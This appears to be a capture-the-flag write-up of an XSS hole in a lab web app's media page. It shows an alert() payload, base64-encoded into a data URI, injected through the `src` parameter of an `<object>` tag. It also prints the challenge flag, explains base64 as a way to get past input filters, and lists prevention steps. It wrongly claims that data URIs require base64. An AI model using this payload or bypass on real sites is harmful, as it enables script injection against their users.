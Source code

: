 # XSS Vulnerability: Media Object Injection

## Overview
A Cross-Site Scripting (XSS) vulnerability exists in the media display feature. The `src` parameter is insecurely rendered, allowing attackers to inject scripts.

---

## Discovery & Exploitation

- The NSA image loads from:  
  `/page=media&src=nsa`

- Since an `<object>` tag is used, you can inject a script using a data URI.

**Steps:**
1. XSS payload: `<script>alert('XSS')</script>`
2. Base64 encode: `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
3. Data URI: `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
4. Exploit:  
   `/page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

When visited, this triggers a JS alert and shows the flag.

---

## Why Base64 Encoding is Used

Base64 encoding is used instead of directly inserting the XSS payload to:

1. **Bypass Input Filters:**  
   Some applications block or sanitize special characters (like `<`, `>`, `'`, `"`). Base64 encoding hides these characters, allowing the payload to bypass basic filters.

2. **Enable Data URI Usage:**  
   Data URIs require base64 encoding to safely embed scripts or HTML as resources for tags like `<object>`.

3. **Prevent Breaking HTML Structure:**  
   Raw scripts may be corrupted or break the page, but base64 within a data URI stays intact and is properly decoded by the browser.

The browser then decodes the base64 back to the script and executes it, successfully triggering XSS.

---

## Flag

`928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`

---

## Prevention

1. **Whitelist sources**: Only allow trusted `src` values
2. **Content Security Policy**: Set strict CSP headers
3. **Input Validation**: Validate `src` against allowed patterns
4. **Output Encoding**: Always encode user-supplied data
5. **Avoid dynamic `<object>` tags**: Use safer HTML elements

---